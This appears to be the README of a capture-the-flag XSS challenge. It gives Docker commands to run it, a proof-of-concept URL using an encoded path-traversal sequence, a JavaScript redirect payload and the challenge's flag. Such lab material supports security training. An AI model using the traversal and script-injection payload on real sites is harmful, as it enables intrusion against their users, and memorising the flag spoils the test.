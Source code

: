 
## RUN
```bash
docker build -t xss1 .
docker tag xss1 ccr.ccs.tencentyun.com/360ctf/xss1
docker run -it --rm -p 5000:5000 --name xss1 xss1
```

## PoC

URL:
http://localhost:5000/e22e29eb-d62f-4e90-848d-e9b9f0af94f9/view/1553283436/a/..%2F..%2F..%2Fhome/


Content:
```txt
location.href='http://baidu.com';//
```

flag{9a7b7c9426594503c76a89bd70d0700a}